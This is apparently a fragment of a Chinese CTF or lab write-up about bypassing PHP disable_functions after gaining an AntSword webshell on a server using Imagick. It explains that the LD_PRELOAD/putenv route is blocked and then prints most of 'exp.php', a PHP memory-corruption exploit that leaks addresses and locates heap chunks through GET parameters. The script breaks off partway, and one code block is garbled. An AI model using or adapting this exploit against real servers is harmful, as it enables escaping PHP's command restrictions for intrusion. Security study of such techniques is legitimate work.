 ```
Imagick��
```

直接上线蚁剑

![image-20220327135355016](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271353222.png)

因为`putenv`被过滤了，所以`LD_PRELOAD & putenv()`的`bypass disable function`的方法不行

exp.php

```php
<?php
error_reporting(0);
$a = str_repeat("T", 120 * 1024 * 1024);
function i2s(&$a, $p, $i, $x = 8) {
    for($j = 0;$j < $x;$j++) {
        $a[$p + $j] = chr($i & 0xff);
        $i >>= 8;
    }
}

function s2i($s) {
    $result = 0;
    for ($x = 0;$x < strlen($s);$x++) {
        $result <<= 8;
        $result |= ord($s[$x]);
    }
    return $result;
}

function leak(&$a, $address) {
    global $s;
    i2s($a, 0x00, $address - 0x10);
    return strlen($s -> current());
}

function getPHPChunk($maps) {
    $pattern = '/([0-9a-f]+\-[0-9a-f]+) rw\-p 00000000 00:00 0 /';
    preg_match_all($pattern, $maps, $match);
    foreach ($match[1] as $value) {
        list($start, $end) = explode("-", $value);
        if (($length = s2i(hex2bin($end)) - s2i(hex2bin($start))) >= 0x200000 && $length <= 0x300000) {
            $address = array(s2i(hex2bin($start)), s2i(hex2bin($end)), $length);
            echo "[+]PHP Chunk: " . $start . " - " . $end . ", length: 0x" . dechex($length) . "\n";
            return $address;
        }
    }
}

function bomb1(&$a) {
    if (leak($a, s2i($_GET["test1"])) === 0x5454545454545454) {
        return (s2i($_GET["test1"]) & 0x7ffff0000000);
    }else {
        die("[!]Where is here");
    }
}

function bomb2(&$a) {
    $start = s2i($_GET["test2"]);
    return getElement($a, array($start, $start + 0x200000, 0x200000));
    die("[!]Not Found");
}
```